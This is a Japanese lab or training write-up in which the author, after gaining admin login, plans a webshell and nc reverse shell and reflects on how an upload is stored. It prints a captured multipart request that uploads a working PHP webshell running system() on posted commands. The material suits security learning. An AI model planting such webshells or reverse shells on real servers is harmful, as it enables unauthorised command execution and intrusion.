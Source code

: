 <br>
  
## リバースシェル
無事管理者でログインできたので、次の一手を考える。  
まぁなんとなくファイルをアップロードができるようなので、`nc.exe`みたいなリバースシェルに使えそうなのを上げてどうにか起動できればいいかなと思料  
ここまで考えて戦略を整理  
- webshellを設置する
- ncの実行体を配送
- webshllからncを実行
- shellをとる
  
<br>
  
そんなこんな思案していたら、  

================　状況終了 ================  
  
<br>  
  
## その後
Webshellのphpをアップロードすることが思いのほか容易に実行できたが、それをどこで動かせばよいのかが分からなかった。  
一番の勘違いは、`burpsuite`でアップデート先を確認した際に、見つけた`name`のところである
```c
------WebKitFormBoundary4kelxNTznBhFODOT

Content-Disposition: form-data; name="name"



test3

------WebKitFormBoundary4kelxNTznBhFODOT

Content-Disposition: form-data; name="job"



test3

------WebKitFormBoundary4kelxNTznBhFODOT

Content-Disposition: form-data; name="comment"



test3

------WebKitFormBoundary4kelxNTznBhFODOT

Content-Disposition: form-data; name="icon"; filename="webshell.php"

Content-Type: application/x-php



<pre><?php system($_POST["cmd"]);?></pre>
<form method="POST">
<input autofocus type="text" name="cmd">
</form>
```
上が実際にアップロードした際に取得したリクエストヘッダーだが、各フォームに送られる先の`name`がDBのカラム名と一致しており、登録した内容はDBに`insert`されるのでは？  
と思い込んでしまった。実際はそうでないらしい。登録された内容はWebサーバー側で保存され、そのファイルパスなどのメタデータがDBに登録されるという講師からの見解だった。  
そんな使い方もあるのかと。。。そのため`select`で出力するとちゃんとした内容が返ってくるのだそう。なんだかポインタみたいだな。  
  